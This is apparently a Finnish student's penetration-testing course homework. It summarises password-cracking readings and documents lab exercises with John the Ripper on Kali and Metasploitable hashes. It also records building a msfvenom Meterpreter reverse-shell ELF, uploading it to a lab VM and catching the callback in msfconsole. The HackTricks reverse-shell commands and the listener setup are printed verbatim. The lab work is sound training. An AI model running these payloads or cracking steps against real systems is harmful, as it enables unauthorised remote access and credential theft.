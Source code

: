 # h4 Marraskuu2024!

## x) Lue/katso ja tiivistä.

### Karvinen 2022: Cracking Passwords with Hashcat

- Hashid: voidaan yrittää määritellä minkä tyyppinen hash kyseessä. **-m** parametri kertoo lisäksi numeron, jota käytetään salasanan murtamisessa.
-  Hashcat: Varsinanen työkalu, jolle annetaan edellisen kohdan **-m nro**, tutkittava hash, sanakirja jota käytetään (**-o solved** tuloksen tallentamiseen).
-  Status voi olla **Cracked** eli onnistunut tai **Exhausted** eli sanalista käytiin loppuun ilman osumia.

### Karvinen 2023: Crack File Password With John

- Sanakirjahyökkäystyökalu
- Voidaan käyttää useiden eri formaattien salasanojen murtamiseen.

## Santos et al 2017: Security Penetration Testing, The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials 

- Käyttäjätunnukset tallennetaan tietokantaan tai tekstitiedostoon
- Salasanoja täytyy suojata tallennuksen  että siirron ajan.
- Oletussalasanat eri laitteissa ja ihmisillä
- Hotspot sniffing
- Brute force työkalut: Medusa, THC-Hydra, Brutus. Metasploit, Dirbuster, wfuzz
- Kaksi samaa salasanaa Windowsissa näyttää saman hashin, Linuxissa salasanaan lisätään satunnainen merkkijono (salt) ennen sen hashausta
- Salasanavuodot, rainbow table
- Hash ei yksinään riitä, käytä saltia hashissa, pitkät salasana, sertifikaattiperusteinen tunnistautuminen, monivaiheinen tunnistautuminen

## Polop et al 2024: HackTricks. MSFVenom - CheatSheet 

msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

## a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

Olin asentanyt Hashcatin jo Information Security kurssin tehtävässä 6a.

https://github.com/anha2/Information-Security/blob/main/h6.md

## c) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

Olin asentanyt John the Ripperin jo Information Security kurssin tehtävässä 6m. Samassa dokumentissa myös zip murtaminen kohdassa 6n.

https://github.com/anha2/Information-Security/blob/main/h6.md

## d) Fuffme. Asenna Ffufme harjoitusmaali paikallisesti omalle koneellesi. Ratkaise tehtävät (kaikki paitsi ei "Content Discovery - Pipes")

Tein tämän jo edellisen viikon vapaaehtoisessa harjoituksessa kohdassa f.

https://github.com/anha2/Tunkeutumistestaus/blob/main/h3.md

## e) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus. 

Olin aiemmin kokeillut pdf salasanojen murtamisen Information Security kurssin tehtävässä 6o.

https://github.com/anha2/Information-Security/blob/main/h6.md


## f) Tiiviste. 

Tein Kalilla uuden käyttäjän ja sille salasanan. Vilkaisin salasanaa ja vein sen hashes.txt tiedostoon.

![11](https://github.com/user-attachments/assets/555e1ab5-3ce5-4ea5-8cb5-65006b406982)

Muokkasin sen jälkeen tiedostosta pois testuser: -osion.

Tämän jälkeen koitin ajaa johnilla mutta se ei onnistunut.

![13](https://github.com/user-attachments/assets/b78fe388-7930-4bdd-8196-ef1066d89034)

Ihmettelin tätä hetkisen ja ChatGPT kertoi tämän olevan yescrypt-algoritmi jota ei välttämättä ole tuettu. Päätin katsoa millaisen hashin Metasploitable tekee. Sieltä tuli MD5 hash. Tässä kohtaa huomasin, että minulla oli jäänyt loppuun : jälkeen vielä tavaraa jonka vuoksi john ei alunperin toiminut.

Alla ensin MD5 hash ratkaistuna joka tuli Metasploitablesta sekä sen alla Kalin hash ratkaistuna.

![10](https://github.com/user-attachments/assets/9c0d83cf-1c9f-4169-81ea-24b9ca6128ab)

![14](https://github.com/user-attachments/assets/3fa36f18-b5dd-4515-9415-aff95eca3ad4)

## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). 

Käytin [101.labsin](https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/) ohjetta tämän tekemiseen:

Aloitin luomalla payloadin Kalilla:

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.250.6 LPORT=5555 -f elf -o reverse-sh.elf

Tässä 192.168.250.6 ja portti 5555 kertovat hyökkäävän koneen ip:n ja portin.

![1](https://github.com/user-attachments/assets/191be1ae-efe7-482c-a8fb-458e7ccb4cfd)

Seuraavaksi katsottin filella tiedoston muoto ja mahdolliset metatiedot.

![2](https://github.com/user-attachments/assets/97341f74-1469-45c6-baa7-e8acb0ee4d0f)

ELF (Executable and Linkable Format) on yleinen suoritettavien tiedostojen muoto Linux-järjestelmissä.

Tämän jälkeen viedään payload tiedosto kohdekoneelle. Testasin tämän ftp:llä ja src:llä. Molemmissa oletettiin, että tunnus ja salasana oli saatu selville. Src:ssä lisäksi piti valita vanhanmallinen kirjautuminen ssh-rsa-avaimella.

![3](https://github.com/user-attachments/assets/905b9287-2791-4f5d-9099-471bbcd8b776)

![4](https://github.com/user-attachments/assets/587e9272-caa1-4f23-89f1-98739b320b19)

Tämän jälkeen otettiin ssh-yhteys kohteeseen. Tässäkin piti käyttää vanhanmallista avainta.

![5](https://github.com/user-attachments/assets/24306762-cdf3-4579-9192-4adff6b376dd)

Yhteyden muodostamisen jälkeen muutettiin aiemmin tuodun tiedoston ajo-oikeudet sekä ajettiin se. Jätetään ssh auki ja siirytään toiseen terminaaliin käyttämään msfconsolea.

![6](https://github.com/user-attachments/assets/c169dd37-57ee-48d0-b499-64eb905ce3b3)

Haluamme käyttää kuuntelijaa, joten annamme komennon sekä lisämäärittelyt

    use exploit/multi/handler
    set lhost 192.168.250.6
    set lport 5555
    set payload linux/x86/meterpreter/reverse_tcp

Tämän jälkeen palataan toiseen terminaaliin ja ssh:n kautta käynnistetään sinne uitettu ohjelma.

![7](https://github.com/user-attachments/assets/02273371-44ed-4038-9889-deeaa083aacb)

Toisessa terminaalissa päivittyi ruutu ja meterpreter tuli näkyviin.

![8](https://github.com/user-attachments/assets/44cceebb-686b-42dd-9233-0e3496fac6a9)


## h) Vapaaehtoinen: Asenna Windows-virtuaalikone ja tee msfvenomilla ohjelma siihen. 

## Lähteet:

101 labs. Luettavissa: https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/. Luettu: 20.11.2024.

Karvinen. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/. Luettu: 16.11.2024.

Karvinen. 2023. Crack File Password With John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/. Luettu: 16.11.2024.

Polop et al. 2024. HackTricks. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom. Luettu: 20.11.2024.

Santos et al. 2017. Security Penetration Testing. Katsottavissa: https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/. Katsottu: 20.11.2024.
